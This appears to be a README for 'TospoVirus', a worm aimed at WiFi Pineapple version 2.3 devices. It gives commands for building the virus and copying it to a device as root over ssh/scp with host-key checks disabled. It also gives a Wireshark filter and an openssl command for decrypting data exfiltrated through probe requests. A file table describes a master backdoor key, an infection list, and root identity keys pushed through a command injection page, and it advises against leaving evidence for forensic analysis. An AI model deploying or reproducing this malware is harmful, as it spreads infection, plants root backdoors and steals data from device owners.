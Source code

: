 Building TospoVirus for Distribution:
------
./build.sh

Distribute to a working pineapple with version 2.3:
------
ssh -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null root@172.16.42.1 "mkdir /tospo"  
scp -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null dist/tv* root@172.16.42.1:/tospo/  
_Note: You'll need to have a configured device OR use the metasploit-module to enable ssh_

Decrypting ex-filtrated data:
------
wireshark filter is:  
(wlan.fc.type_subtype == 0x04) && (wlan_mgt.tag.length == 32)  
printf $(echo "[data copied from wireshark]" | sed -re 's/(..)/\\\\x\1/g') | openssl rsautl -decrypt -inkey tvd.pem


Files & Purpose:
------
| File         | Purpose  |
| ------------ | -------- |
| tv           |The virus itself.|
| tvbd         |The "master" backdoor key, do not distribute the private key.|
| tvi          |The infection list - carries information about the heritage of this device.|
| tvd          |The disclosure key, used for exfiltrating data via probe requests.|
| tospo_rsa    |The identity private key, specific to each infected device used as the transfer key.|
| tospo_rsa.pub|The identity public key, transferred via the command injection page to allow the private identity to perform actions as root on the remote device.|
| w            |Pushed wireless configuration options, used to restore previous connections.|
| n            |Pushed network configuration options, used to restore previous connections.|
_Note: Files starting with 'tv' are all transferred when infecting a new device. Do not add private keys and the like using names beginning with 'tv' or else your private key will be exposed to forensic analysis._